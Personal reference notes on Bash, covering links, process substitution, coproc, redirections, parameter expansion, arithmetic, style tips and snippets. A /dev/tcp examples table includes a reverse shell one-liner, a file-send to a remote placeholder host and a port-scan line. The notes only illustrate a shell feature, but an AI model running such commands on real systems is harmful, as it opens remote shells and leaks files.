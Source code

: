 - wiki https://en.wikipedia.org/wiki/Bash_(Unix_shell)
  - Author: Brian Fox
  - 1989-

- article order of startup https://blog.flowblok.id.au/2013-02/shell-startup-scripts.html

- PS1's
  - ";"
    - allows you to copy multiple commands (also on rc shell)
    - PS1='%(?.%(!.#.;).%F{6}%B;%b%f) '

- https://github.com/onceupon/Bash-Oneliner
- https://github.com/dylanaraps/writing-a-tui-in-bash

- article 18 http://ratfactor.com/slackware/pkgblog/bash
- article 24
  https://mtlynch.io/zig-extraneous-build/#my-mental-model-of-bash-pipelines-is-wrong
  https://hackaday.com/2024/03/28/is-your-mental-model-of-bash-pipelines-wrong/
- article https://muhammadraza.me/2023/webscraping-in-bash/
- article https://muhammadraza.me/2023/shell-functions/
- article https://garnix.io/blog/contextual-cli
- https://www.commandlinefu.com/
- https://command-not-found.com/
- https://www.mulle-kybernetik.com/modern-bash-scripting/
- https://github.com/xwmx/bash-boilerplate
- https://github.com/dylanaraps/pure-bash-bible
- https://github.com/mrzool/bash-sensible
- https://github.com/joseluisq/awesome-bash-commands
- https://lobste.rs/s/iofste/please_stop_writing_shell_scripts
- Why doesn't set -e (or set -o errexit, or trap ERR) do what I expected?
  http://mywiki.wooledge.org/BashFAQ/105
- shfmt
  https://github.com/mvdan/sh
  (fork?) https://github.com/patrickvane/shfmt

- https://wizardzines.com/comics/bash-debugging/
  https://news.ycombinator.com/item?id=39568728

- LLM
  https://hackaday.com/2023/12/29/using-local-ai-on-the-command-line-to-rename-images-and-more/
  https://justine.lol/oneliners/
  https://gist.github.com/jart/bd2f603aefe6ac8004e6b709223881c0

* Language

- "Destructuring" with *read* https://stackoverflow.com/questions/1952404/linux-bash-multiple-variable-assignment

- exec CMD
  - make cmd replace the current shell, no new process is created

- Process substitution
  - careful of not forgetting an "<" in "cmd < <(cmd2)"
  - "cmd | tee >(cmd2) >(cmd3)" - sends "cmd" output to both "cmd2" and "cmd3" stdin https://tecadmin.net/bash-process-substitution/
  - bash won't wait for cmd2 or cmd3 to finish to exit
    - detailed explaination https://unix.stackexchange.com/questions/403783/the-process-substitution-output-is-out-of-the-order
    - you can hack together a ~work group~ type of thing with ~mkfifo~ https://unix.stackexchange.com/questions/351780/wait-for-bash-process-substitution-subshells

- Brace Expansion
  - support integer zero padding
  - supports a step {FROM..TO..STEP}
  - you can use an "enumeration" on a "for loop" using "for i in {this,that,theother}"

- commands run in a pipeline run at the same time
  https://mtlynch.io/zig-extraneous-build/#my-mental-model-of-bash-pipelines-is-wrong

- << EOF here document
  <<- EOF here document, ignore leading tabs

- https://zwischenzugs.com/2018/10/12/eleven-bash-tips-you-might-want-to-know/
  https://zwischenzugs.com/2020/05/09/some-relatively-obscure-bash-tips/

- Bash does NOT support natively floating point numbers

- CTRL+z = sends a SIGTSTP aka suspends program
- jobs/bg/fg/%N

** Coproc

- commands
  - simple: sequence of words
  - compound: shell constructs

- manual https://www.gnu.org/software/bash/manual/html_node/Coprocesses.html
  - coproc [NAME] cmd [redirections]
    - like "cmd &", runs async in a subshell
    - communication happens over pipes
      - NAME defaults to COPROC if none given
      - stdout in NAME[0]
      - stdin  in NAME[1]
    - "wait"

- example: progress bar https://gist.github.com/drewchapin/f43ab1a10367b1bfa53c55fe612d4245
- 10 https://www.linuxjournal.com/content/bash-co-processes
- 11 https://www.zsh.org/mla/users/2011/msg00095.html
- 18 https://www.linuxjournal.com/content/investigating-some-unexpected-bash-coproc-behavior
- 19 https://copyconstruct.medium.com/bash-coprocess-2092a93ad912
- 21 https://mbuki-mvuki.org/posts/2021-05-30-memoize-commands-or-bash-functions-with-coprocs/
  - a memoization solutions that works
  - classic solutions won't because =command substitution= $() runs in a subshell

** Types

- reserved words
- shell builtin

- array ops
  ${arr[0]}
  ${arr[@]:1:3}  #slicing
  ${arr[@]// /_} # substitute on each element

- string ops
  ${foo:1:10} # slice
  ${#foo}     # length
  ${foo^^}    # uppercase
  ${foo^}     # capitalize
  ${foo/a/b}  # substitute once
  ${foo//a/b} # substitute all

** Redirections

https://tldp.org/LDP/abs/html/io-redirection.html

- append output also to file
  - exec &>> file.txt
  - exec > >(tee file.txt) 2>&1
  - exec 2> >(tee -a file.txt)

- <filename cmd1              - alternative to cat pipe
  <filename >outfile cmd1

- Redirection Operators
  - "|&" https://stackoverflow.com/questions/35917552/what-does-the-syntax-mean-in-shell-language
  - "<>" https://bash.cyberciti.biz/guide/Opening_the_file_descriptors_for_reading_and_writing
  |-------------+------------------------------------------------|
  | ¦&          | shorthand for "2>&1 ¦"                         |
  | [n]<>word   | opens fd n at word, for r/w                    |
  | [n]<&word   | duplicates fd                                  |
  | [n]>&word   | duplicates fd                                  |
  | [n]<&-      | closes fd n (or 0)                             |
  | [n]<&digit- | moves fd digit to n (or 0), closes digit after |
  | [n]>&digit- | moves fd digit to n (or 1)                     |
  |-------------+------------------------------------------------|

- feature: open client socket
  - https://medium.com/@stefanos.kalandaridis/bash-ing-your-network-f7069ab7c5f4
  - /dev/tcp/host/port
    /dev/udp/host/port
  - Examples:
    |---------------+-----------------------------------------------------------------------------------|
    | port scanning | timeout 0.5 echo < /dev/tcp/127.0.0.1/777/ && echo "open" ¦¦ echo "closed"        |
    | read stream   | cat < /dev/tcp/time.nist.gov/13                                                   |
    | receive file  | cat < /dev/tcp/remote.ip/1234 > file.txt                                          |
    | send file     | cat file.txt > /dev/tcp/remote.ip/4321                                            |
    | reverse shell | bash -c 'bash -i >& /dev/tcp/remote.ip/7777 0>&1'                                 |
    |---------------+-----------------------------------------------------------------------------------|
    | http request  | exec 5<>/dev/tcp/www.google.com/80                                                |
    |               | >&5 echo -e "GET / HTTP/1.1\r\nHost: www.google.com\r\nConnection: close\r\n\r\n" |
    |               | <&5 cat                                                                           |
    |---------------+-----------------------------------------------------------------------------------|
    * could have used "here documents" for the GET, using cat and >&5

** Special Parameters

|----+---------------------------|
| $_ | argument of last command  |
| $? | exit code of last command |
| $$ | self PID                  |
| $! | recent bg PID             |
|----+---------------------------|
| $# | number of arguments       |
| $0 | name of the script        |
| $* |                           |
| $@ |                           |
|----+---------------------------|

** select

- Creates an interactive selection menu

#+begin_src bash
  select var in {a..z}; do
    echo $REPLY $var
  done
  # ?# 2
  # 2 b
#+end_src

** getopt(s)

https://en.wikipedia.org/wiki/Getopts
- 1986-
- based on C's getopt

#+begin_src bash
  while getopts ":hf:" arg; do
      case $arg in
          h)  echo "help"; exit 1 ;;
          f)  echo "argument given: $OPTARG" ;;
          :)  echo "Mandatory argument missing for given flag $OPTARG"; exit 1;;
          \?) echo "Unknown flag";  exit 1;;
      esac
  done
  shift $((OPTIND - 1)) # allow positional arguments
#+end_src

** Arithmetic Evaluation $(())

- Equivalent to "let expressions"
  let arg [arg ...]

- "Evaluation is done in fixed-width *integers* with no check for overflow,
   though division by 0 is trapped and flaged as an error."
  - aka NOT floats

- "A shell variable that is null or unset evaluates to 0"

*** Operators

|-----------------------------------+--------------------------------------------|
|                <c>                |                                            |
|             OPERATOR              |                                            |
|-----------------------------------+--------------------------------------------|
|             id++ id--             | variable post-increment and post-decrement |
|             ++id --id             | variable pre-increment and pre-decrement   |
|                + -                | unary minus and plus                       |
|                **                 | exponentiation                             |
|               * / %               | multiplication, division, remainder        |
|                + -                | addition, subtraction                      |
|-----------------------------------+--------------------------------------------|
|                 !                 | logical negation                           |
|             <= >= < >             | comparison                                 |
|               == !=               | equality and inequality                    |
|                &&                 | logical AND                                |
|                ¦¦                 | logical OR                                 |
|-----------------------------------+--------------------------------------------|
|          expr?expr:expr           | conditional operator                       |
| = *= /= %= += -= <<= >>= &= ^= ¦= | assignment                                 |
|           expr1 , expr2           | comma                                      |
|-----------------------------------+--------------------------------------------|
|                 ~                 | bitwise negation                           |
|               << >>               | bitwise left and right shifts              |
|                 &                 | bitwise AND                                |
|                 ^                 | bitwise exclusive OR                       |
|                 ¦                 | bitwise OR                                 |
|-----------------------------------+--------------------------------------------|


* Tutorial: Style https://google.github.io/styleguide/shellguide.html

- Don’t brace-delimit single character shell specials / positional parameters,
  unless strictly necessary or avoiding deep confusion.
- Indentation: Indent 2 spaces. No tabs.
- Comment at the header
  #+begin_src bash
    #!/bin/bash
    #
    # Perform hot backups of Oracle databases.
  #+end_src
- Redirect errors to STDERR
  #+begin_src bash
    err() {
      echo "[$(date +'%Y-%m-%dT%H:%M:%S%z')]: $*" >&2
    }
  #+end_src
- Do not put an extension on executables, only on libraries
- Guidelines
  - When is ok
    * mostly calling other utilities
    * relatively little data manipulation
  - When NOT use
    * Scripts more than 100 lines long
    * Using non-straightfoward control flow logic
    * if performance matters

* Changelog

table of changes https://mywiki.wooledge.org/BashFAQ/061
5.0 discussion https://news.ycombinator.com/item?id=18852523

- 3.0 (2004)
  - regex? =~
- 4.0 (2009)
  - coproc
  - associative array
  - &>> and |&
  - mapfile/readarray
- 4.4 (2016)
  - mapfile/readarray -d
  - ${var@operator} "parameter transformation"
    - U uppercase
    - u capitalize
    - Q single quote
- 5.0 (2019) https://lists.gnu.org/archive/html/bug-bash/2019-01/msg00063.html
  - EPOCHSECONDS / EPOCHREALTIME
  - BASH_ARGV0 (same as $0)
- 5.1 (2020)
  - SRANDOM (32 bit random)

* Codebases

- maze solver https://gist.github.com/xsot/99a8a4304660916455ba2c2c774e623a
- web server https://github.com/dzove855/Bash-web-server
- web framework https://github.com/emasaka/shails
- web framework
  - https://github.com/cgsdev0/bash-stack/
  - https://bashsta.cc/0-index
- minecraft server
  - https://sdomi.pl/weblog/15-witchcraft-minecraft-server-in-bash/
  - https://github.com/sdomi/witchcraft
  - https://news.ycombinator.com/item?id=30347501

* Snippets

- Example: concatenation
  $ cut -d: -f2 studentlist.txt | xargs printf "%s@example.com"

- Common lines between files
  $ grep -Fxf file1 file2
  $ grep --fixed-strings --line-regexp --file file1 file2

- Not common lines
  $ grep -vFxf file1 file2

#+NAME: scramble string
#+begin_src bash
echo -n "${1}" | fold -w1 | sort -R | xargs -ILETTER echo -n LETTER

echo -n "${1}" | while read -n1 -r letter; do
     echo $letter
done | sort -R | xargs -ILETTER echo -n LETTER
#+end_src

#+begin_src bash
  die() { echo $1 >&2; exit 1; } # some_command || die "oh no!"
#+end_src

#+begin_src bash
  for cmd in sgr0 bold; do
    tput $cmd
    for i in $(seq 0 7); do
      for j in $(seq 0 7); do
        tput setaf $i; tput setab $j; echo -n " $i,$j "
      done
      tput sgr0; echo; tput $cmd
    done
  done
#+end_src

* 14 Video: Introduction to Advanced Bash Usage | James Pannacciulli

@ OSCON 2014
https://www.youtube.com/watch?v=uqHjc7hlqd0

- Bash 3/4
- Return values: 0-255

- indirect expansion
  param="parade"; parade="long"
  ${!param} # long

- list names/variables/functions? matching prefix
  ${!pa*} or ${!pa@}

- Parameter Expansion: Conditionals (24:43)
  (check if variable is unset, empty or non-empty)
|--------------------+--------------+--------------+-------------|
|                    | unset param  | param=""     | param="gnu" |
|--------------------+--------------+--------------+-------------|
| ${param-default}   | default      | -            | gnu         |
| ${param=default}   | name=default | -            | gnu         |
| ${param+alternate} | -            | alternate    | alternate   |
| ${param?error}     | error        | -            | gnu         |
|--------------------+--------------+--------------+-------------|
| empty as unseat    | ..           | ..           | ..          |
|--------------------+--------------+--------------+-------------|
| ${param:-default   | default      | default      | gnu         |
| ${param:=default   | name=default | name=default | gnu         |
| ${param:+alternate | -            | -            | alternate   |
| ${param:?error}    | error        | error        | gnu         |
|--------------------+--------------+--------------+-------------|

- example: brace expansion
  > echo bash{,{d,s},ful{,ly,ness},ing}
  bash bashed bashes bashful bashfully bashfulness bashing
  > man man
  > man{,}
  > echo {1..5}{0,5}% # BASH 3
  10% 15% 20% 25% 30% 35% 40% 45% 50% 55%
  > echo {10..55..5}% # BASH 4
  10% 15% 20% 25% 30% 35% 40% 45% 50% 55%

- You don't need {} to define a function
  #+begin_src bash
    words () # for is the compound command
    for word # with the missing "in" it reads from STDIN
    do
        echo "$word"
    done
  #+end_src

- define and then call, being memtop a custom function defined by the user
  > $ sudo bahs -c "$(declare -f memtop); memtop"

